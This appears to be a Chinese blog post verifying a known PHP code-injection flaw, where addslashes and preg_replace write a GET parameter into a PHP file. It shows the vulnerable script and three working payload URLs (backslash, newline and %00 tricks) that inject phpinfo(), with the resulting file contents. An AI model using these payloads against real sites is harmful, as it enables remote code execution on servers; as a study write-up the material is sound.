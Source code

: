 ```yaml
---
layout: post

title: "一个PHP正则相关的“经典漏洞”"
date: 2017-02-28 16:29:56 +0800
image: true

categories: php
tags: [php, 正则表达式, 网络安全]
---
```

1. 文件准备
    example.php 文件
    ```php
    <?php
    $str = addslashes($_GET['option']);
    $file = file_get_contents('example_test.php');
    $file = preg_replace('|\$option=\'.*\';|',"\$option='$str';", $file);
    var_dump($str, $file);
    file_put_contents('example_test.php', $file);
    ```
    ![example.php]({{ site.url }}/assets/images/201702/28-01.png)

    example_test.php 文件
    ```php
    <?php
    $option='hello';
    echo $option;
    ```
    ![example_test.php]({{ site.url }}/assets/images/201702/28-02.png)

**注入方法**

方法一: 利用反斜杠, 输入`\';phpinfo();//`

`http://example.com/example.php?option=\%27;phpinfo();//`

```php
string(17) "\\\';phpinfo();//"
string(50) "<?php

$option='\\';phpinfo();//';

echo $option;
"
```

方法二: 利用正则, 输入`aaa';phpinfo();%0a//`

`http://example.com/example.php?option=aaa%27;phpinfo();%0a//`

```php
string(19) "aaa\';phpinfo();
//"
string(53) "<?php

$option='aaa\';phpinfo();
//';

echo $option;
"
```
方法三: 利用 `%00`

1. 输入`;phpinfo();`, `http://example.com/example.php?option=;phpinfo();`

    ```php
    string(11) ";phpinfo();"
    string(45) "<?php

    $option=';phpinfo();';

    echo $option;
    "
    ```
1. 再次输入`%00`, `http://example.com/example.php?option=%00`

    ```php
    string(2) "\0"
    string(56) "<?php

    $option='$option=';phpinfo();';';

    echo $option;
    "
    ```

> 本文为验证,`原文`有解析: [https://www.cdxy.me/?p=756](https://www.cdxy.me/?p=756)

---
更多阅读
- [一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)
